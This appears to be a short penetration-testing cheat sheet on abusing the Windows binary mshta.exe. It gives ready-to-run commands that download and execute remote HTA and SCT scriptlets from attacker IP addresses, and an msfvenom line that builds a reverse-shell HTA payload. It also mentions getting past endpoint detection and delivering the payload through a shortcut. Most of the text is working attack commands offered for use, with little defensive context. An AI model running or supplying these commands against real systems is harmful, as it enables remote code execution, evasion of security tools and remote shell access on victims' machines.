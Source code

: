 ## Mshta

```
# Execute from Web Server
# Note that mshta.exe will download the .hta file before its execution, so we must still bypass any installed endpoint detection software.
c:\Windows\System32\mshta.exe http://192.168.45.230:7711/test.hta

# Execute locally
c:\Windows\System32\mshta.exe c:\windows\temp\test.hta

# Download and execute sct file
c:\Windows\System32\mshta.exe vbscript:Close(Execute("GetObject(""script:http://10.10.10.100/test.sct"")"))

# msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f hta-psh -o shell.hta
```

## Binary File Paths
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

## Shortcut Delivery
Can also be delivered as a shortcut to the target

![image](https://github.com/user-attachments/assets/1fb2a35e-4181-4f83-9f54-464c2a395b22)


## Resources

- https://github.com/karemfaisal/SMUC/blob/master/MSHTA/Mshta.md
